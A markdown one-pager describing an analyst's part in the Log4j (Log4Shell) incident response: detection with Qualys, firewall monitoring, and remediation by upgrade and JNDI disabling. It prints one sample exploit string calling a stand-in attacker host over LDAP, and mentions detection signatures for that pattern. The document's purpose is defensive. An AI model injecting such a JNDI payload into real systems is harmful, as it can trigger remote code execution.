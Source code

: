 # Markdown content for the Log4j Incident Response One-Pager

# Log4j Incident Response – One-Pager  
**Role:** Security Operations Analyst  
**Duration:** Dec 2021 – Jan 2022  
**Tools Used:** Qualys, Palo Alto Panorama, SolarWinds, Slack/Bridge Calls  

---

## 📌 What is Log4j?  
Apache Log4j is a Java-based logging utility used in countless enterprise applications. In December 2021, a critical vulnerability—**CVE-2021-44228 (Log4Shell)**—was discovered that allowed **unauthenticated remote code execution (RCE)** via **JNDI lookups** in log messages.

- **CVSS Score:** 10.0 (Critical)  
- **Affected Versions:** ≤ 2.14.1  
- **Fixed in:** 2.15.0 and later  
- **Exploit Example:** `${jndi:ldap://attacker.com/payload}`  

---

## 🕵️‍♂️ Why It Was Dangerous  
- Widespread usage across Java apps (e.g., Minecraft, VMware, Apple iCloud, AWS)  
- Enabled full remote code execution with minimal effort  
- Led to deep supply chain compromise and APT activation  
- Embedded in shadow dependencies (JARs inside JARs)

---

## 🛡️ My Role During the Incident  
I worked on the **Security Operations Team** at TCS supporting AMD’s infrastructure during the crisis. This involved **real-time detection, monitoring, and remediation** in collaboration with L2/L3 teams and external partners.

---

## 🎯 Key Responsibilities & Contributions

### 🔍 Vulnerability Detection
- Managed **Qualys Cloud Agent** to ensure accurate detection (QIDs: 376157, 376178, 91495)  
- Scanned for vulnerable Log4j instances across Linux/Windows systems  
- Flagged high-risk servers for immediate patching and isolation  

### 🌐 Firewall & Perimeter Defense
- Monitored **Palo Alto Panorama** for outbound LDAP/RMI/DNS exploit traffic  
- Applied dynamic firewall rules to **block JNDI lookup patterns**  
- Detected suspicious communication with external command servers  

### 📊 Incident Coordination & Reporting
- Participated in **24x7 bridge calls and war-room sessions**  
- Documented exposure impact, patch status, and escalation workflows  
- Used **SolarWinds** for system discovery, patch prioritization, and health checks  

---

## 🧰 Remediation Actions
- Upgraded Log4j to version **2.16+ / 2.17+**  
- Disabled JNDI lookups: `log4j2.formatMsgNoLookups=true`  
- Applied **WAF rules** and SIEM detection signatures for `${jndi:` patterns  
- Implemented **compensating controls** and monitored patch completion  

---

## 📘 Outcome & Learning
Supported large-scale incident response for a global zero-day exploit involving multiple threat vectors, including suspected **APT activity**. Gained hands-on experience with **real-time detection, cross-functional security collaboration**, and **tool-based mitigation** under pressure.
"""

